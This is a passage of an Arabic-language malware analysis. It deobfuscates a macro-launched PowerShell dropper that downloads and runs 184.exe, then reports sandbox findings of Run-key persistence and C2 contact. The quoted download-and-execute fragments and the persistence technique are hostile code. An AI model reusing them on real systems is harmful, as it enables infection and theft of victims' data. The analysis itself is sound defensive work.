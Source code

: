 1-  قيمة pTl4Jz  إستخرجناها سابقا  والتي تساوي `('new-object') net.webclient;`  

2-   قيمة tZTLXzZq إستخرجناها سابقا  والتي تساوي `env:userprofile\184.exe`    

3-    `If ((.('G'+'et'+'-Item') $tZTLXzZq).LenGTh -ge 31421)`    تساوي     
 
`If (('Get-Item') $env:userprofile\184.exe).LenGTh -ge 31421) `  

4-   `	{[Diagnostics.Process]::sTarT($tZTLXzZq);` تساوي    

 ` If ((.('Get-Item') $env:userprofile\184.exe).LenGTh -ge 31421)`  

5- `{[Diagnostics.Process]::sTarT($tZTLXzZq);` تساوي  

`{[Diagnostics.Process]::start($env:userprofile\184.exe);`


لتصبح القيمة النهاية للكود بهذا الشكل والذي يعني أن عند تشغيلpowersheel  سوف يقوم بالاستعانة ب Net.WebClient لزيارة هذه عناوين URL  المذكورة بالكود من ثم تنزيل ملف ` 184.exe` لجهاز الضحية من ثم التأكد من حجم الملف في حال كان أكبر من أو يساوي 31421 فسيقوم بتشغيلة بجهاز الضحية. 

![](https://i.ibb.co/DpspD8q/20.png) 


### تحليل أسلوب الملف 
 
 لتحليل أسلوب الملف نلاحظ بالبداية من خلال تحليلنا السابق:

1. أولًا تشغيل  مستند word (WINWORD.EXE)
2. ثانيًا تشغيل macro والذي قام بمناداة wmi لتشغيل powershell 
3. من ثم من خلال الإستعانة ب  Net.WebClient قام بتنزيل ملف ` 184 `
   
   قمت بالإستعانة ب any.run  لمعرفة ماذا سيحصل بعد تحميل ملف  ويمكن الإستعانة بأي sandbox لهذا الغرض. 

![](https://i.ibb.co/fdMwtzQ/21-1.png)
بداية نلاحظ أنه تم تنزل الملف ب المسار 

`"C:\Users\admin\184.exe" ` 
![](https://i.ibb.co/nQrWHhW/22.png)
ثم إنشاء مجلد
`sansidaho`
في نفس المسار وتنزيل ملف
`sansidaho.exe`
![](https://i.ibb.co/NyBtF6R/23.png)
والذي بدورة سيقوم أولا بتغير قيم registry تحديدا 

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` 
![](https://i.ibb.co/wW8q5gp/24.png)
 والتي تهدف لتشغيل ` sansidaho.exe` في كل مره يقوم فيها المستخدم بتسجيل الدخول للجهاز الكمبيوتر 

من ثم الإتصال ب c2c  للتجسس وسرقة معلومات الضحية 
![](https://i.ibb.co/qBzsXRW/25.png)
![](https://i.ibb.co/VY3C1nP/26.png)
![](https://i.ibb.co/m6P79ky/27.png)
